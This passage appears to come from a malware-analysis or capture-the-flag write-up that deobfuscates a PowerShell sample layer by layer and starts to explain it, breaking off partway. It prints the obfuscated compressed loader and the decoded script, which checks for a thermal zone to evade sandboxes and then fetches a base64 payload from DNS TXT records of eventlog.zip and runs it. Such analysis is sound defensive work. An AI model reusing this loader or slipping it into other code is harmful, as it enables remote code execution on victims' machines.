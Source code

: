 ```powershell
 ( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | . ( $enV:CoMSpec[4,24,25]-jOin'')

Layer 5 - Plainscript

try {$TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; if ($error.Count -eq 0) { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }

Checking shellcode
Checking variables content
Checking URLs http response
No valid URLs found.

Declared Variables:

Name                           Value
----                           -----
TGM8A

Shellcode detected:

Execution Report:

Sample was not on the repository!
Decoding terminated. Report file has been saved to C:\xxx\PowerDecode_report_15bf2643-c788-4136-b58e-d105532b377c.txt
Press Enter to continue...:
```

Our final script is

```powershell
try {$TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; if ($error.Count -eq 0) { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }
```

Now with this we can try to understand what it is doing. Niiiice!. 

1. It attempts to retrieve the thermal zone temperature information using the `Get-WmiObject` cmdlet. This information is related to ACPI thermal zones, which are used to monitor the temperature of a system. If it's successful, it stores the result in the `$TGM8A` variable.
    
2. It checks if there are any errors. If there are no errors, it proceeds to the next steps.. It tries to resolve the DNS name `eventlog.zip` with the type `txt` using the `Resolve-DnsName` cmdlet. The result is an array of DNS records containing strings. These strings are stored in the `$5GMLW` variable.
    